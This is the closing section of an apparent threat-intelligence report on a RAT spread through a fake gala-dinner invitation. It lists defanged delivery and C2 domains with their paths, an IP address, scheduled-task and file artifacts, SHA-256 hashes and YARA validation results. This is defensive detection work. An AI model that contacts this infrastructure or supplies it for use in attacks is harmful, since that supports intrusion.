[Validation](detection-validation-v2.json) produced all eight expected sample/archive outcomes. The JPEG and unopened 7z did not match: extract the archive before scanning its members. There were no alerts across 177 clean files, and all 37 controlled variations and near-misses gave the expected results. The [validation harness](detection_validate_v2.py) is included.

Use hashes to identify this build and the structural or behavioral combinations to investigate relatives. Temporary MSI filenames and task names can change. The process chain and plaintext protocol are harder to make disappear by renaming a file.

The bundle also includes [three broader hunts](majlis-hunt.yar) for the RAT and its delivery scripts, with a [usage guide](detection-guide.md) and [expanded test results](detection-validation-v2.json).

### Specimen Identities

The domains are defanged below. 

| Host or address | Role | Path or context |
| :--- | :--- | :--- |
| `rappellingaart[.]com` | WebDAV delivery | `/secure-docs/3`; `/secure-docs/res.ico`; `/secure-docs/Imp_Details.msi` |
| `gomescareerplans[.]com` | Scheduled command source | `/docs/?vid=%computername%G` |
| `www.chestergreenfarming[.]com:80` | Native RAT C2 | `/peachforthevictory/`; `receive.php`; `send.php?file=` |
| `176.123.0[.]199` | Address observed for the script host | Resolved on 1 October 2026. |

**Host Artifacts:**

*   `MicrosoftUpdates\updates88679` (Scheduled HTTP command task; 39-minute interval)
*   `C:\users\public\music\err.log` (Command text written by the script channel)
*   `C:\programdata\ss.jpg` (Native screenshot fallback)
*   `{C1B4E779-4A66-405F-9B2C-F8CAD4AE106F}` (MSI ProductCode)

**SHA-256 Inventory:**

| Artifact | Bytes | SHA-256 |
| :--- | :--- | :--- |
| Official Invitation Majilis 2026 Gala Dinner.7z | 2,340,789 | `24a751d37ae7b0ceb0958ee4c3a0bd3ecde8c13f63400e963aebc91c909f62f1` |
| Binary.exe | 574,976 | `5d8df4c2d08cff5f1c0de8eab56e47ae543bd5c6d2ef04573f61ebb9fbc65716` |
| Imp_Details.msi.bin | 633,856 | `4008c8f9e52d3e6fd7df4a980a9a78f46f2412ba2fda10a38aa92d338767c54c` |
| Scanned Document 2026.lnk.bin | 1,745 | `613b6569bd8a4cd75ab11ee9682dd690fabfb11d5c1103caf2ba086e006da034` |
| Scanned Image.url | 190 | `0457ad9cb2f0ecfabd7cf324d0af59ac7ce5e8ded5ea3619385c460139ed4577` |
| icon.ico.bin | 59 | `c27ca16248e04f6535ae3e6d1670d740b3884f0fa64935ddfd39faf712f4175d` |
| icon2.xz | 2,086,470 | `fec4f301a1be36a42ec27208e13b5d1d3d0bbe0f1ab47bbab863a7ca9923c571` |
| res.ico.bin | 361 | `f1060a81c9f68d6f3d23e28f2a1af50fa18ecb9b0a763ca5dcd4b294b6a3593c` |

### Case Files and Supporting Records

The portable bundle includes the report, the figures, the YARA rules and these supporting records. The original specimens, raw packet captures and full disassembly remain in the Kali case archive. Start with `runtime-findings.json` for the Windows results. The earlier static notes cover the disassembly and file analysis.

| Area | Supporting records |
| :--- | :--- |
| Delivery and containers | [Shortcut and script semantics](chain-notes.json); [MSI streams and tables](msi-complete.json); [remote retrieval outcomes](acquisition-deep.json); [JPEG structure and decode](image-notes.json). |
| Native code | [Native findings](binary-findings.json); [HTTP and command schemas](protocol-deep-findings.json); [state, workers and exceptions](lifecycle-deep-findings.json); [anti-analysis review](antianalysis-review.json). |
| Windows observations | [Completed runtime synthesis](runtime-findings.json); [controlled command exchanges](runtime-native-controlled.json); [process and deletion corroboration](procmon-controlled-supplement.json); [MSI custom-action log review](msi-log-review.json); [screenshot decode and capture](ss1-visual-controlled-summary.json). |
| Indicators and validation | [Machine-readable IOCs](iocs.json); [artifact identities](artifact-manifest.json); [Current YARA outcomes](detection-validation-v2.json); [source-record verification](final-verification.json); [screenshot identities](screened-image-manifest.json); [presentation edit record](presentation-image-edits.json); [guest case archive identity](case-bundle-status-v3.json). |

## 9. CLOSING THOUGHTS

Across three isolated Windows runs, the installer launched the RAT, all nine command types completed their tests, and downloaded bytes came back intact through the upload channel. SS1 delivered the desktop after dumping its screenshot in ProgramData. Somebody built two separate command channels and then put `OTP: 123456` on the file transfers. Priorities.

If you find this on your network, block the C2, clean up the scheduled task, and maybe save the village picture for your desktop background.

```
- ROBERT
  NadSec Threat Intelligence
  "I drink coffee so I don't strangle the firewall."
```

---

*Daniel Wade - [GitHub](https://github.com/Rat5ak) · [Twitter/X](https://x.com/Nadsec11) · [Bluesky](https://bsky.app/profile/nadsec.online) · [Mastodon](https://cyberplace.social/@Nadsec) · [Medium](https://medium.com/@Nadsec) · [nadsec.online](https://nadsec.online)*
